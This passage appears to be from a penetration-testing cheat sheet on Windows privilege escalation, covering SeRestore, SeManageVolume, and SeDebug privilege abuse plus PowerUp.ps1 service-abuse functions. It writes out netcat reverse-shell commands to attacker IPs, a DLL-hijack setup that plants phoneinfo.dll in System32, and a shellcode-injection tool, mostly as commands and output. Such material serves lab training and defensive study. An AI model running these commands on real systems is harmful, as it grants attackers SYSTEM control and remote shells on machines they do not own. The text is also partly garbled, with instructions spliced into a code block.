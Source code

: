 ```
upload nc.exe
.\SeRestoreAbuse.exe "C:\temp\nc.exe 192.168.49.194 4444 -e powershell.exe"
```
##### SeManageVolumePrivilege to System
```
C:\xampp\htdocs\uploads>whoami
access\svc_mssql

C:\xampp\htdocs\uploads>SeManageVolumeExploit.exe
Entries changed: 865
DONE

C:\xampp\htdocs\uploads>icacls C:/Windows
C:/Windows NT SERVICE\TrustedInstaller:(F)
           NT SERVICE\TrustedInstaller:(CI)(IO)(F)
           NT AUTHORITY\SYSTEM:(M)
           NT AUTHORITY\SYSTEM:(OI)(CI)(IO)(F)
           BUILTIN\Users:(M)
           BUILTIN\Users:(OI)(CI)(IO)(F)

To set it up we need to:

1. Copy **phoneinfo.dll** to **C:\Windows\System32**
2. Place **Report.wer** file and **WerTrigger.exe** in a same directory.
3. Run WerTrigger.exe.
C:\xampp\htdocs\uploads\enox>WerTrigger.exe
WerTrigger.exe
c:/xampp/htdocs/uploads/nc.exe 192.168.118.23 4444 -e cmd.exe
```
```
https://github.com/xct/SeManageVolumeAbuse?tab=readme-ov-file
./SeManageVolumeAbuse.exe
```
##### SeDebug to System
Run: SeDebugAbuse.exe <pid>. This will inject shellcode (you have to copy it into the source) into a process & run it. When targeting a SYSTEM process and you have the SeDebug privilege it will run as SYSTEM even though you normally could not get a handle to a SYSTEM process. Note that some processes are protected (e.g. PID=4) and can not be used as a target. A good alternative is the spool service.
```
https://github.com/xct/SeDebugAbuse
```
##### PowerUp.ps1
```
Service Enumeration:
Get-ServiceUnquoted                 -   returns services with unquoted paths that also have a space in the name
Get-ModifiableServiceFile           -   returns services where the current user can write to the service binary path or its config
Get-ModifiableService               -   returns services the current user can modify
Get-ServiceDetail                   -   returns detailed information about a specified service
Service Abuse:
Invoke-ServiceAbuse                 -   modifies a vulnerable service to create a local admin or execute a custom command
Write-ServiceBinary                 -   writes out a patched C# service binary that adds a local admin or executes commands
Install-ServiceBinary               -   replaces a service binary with one that adds a local admin or executes commands
Restore-ServiceBinary               -   restores a replaced service binary with the original executable
DLL Hijacking:
Find-ProcessDLLHijack               -   finds potential DLL hijacking opportunities for currently running processes
```
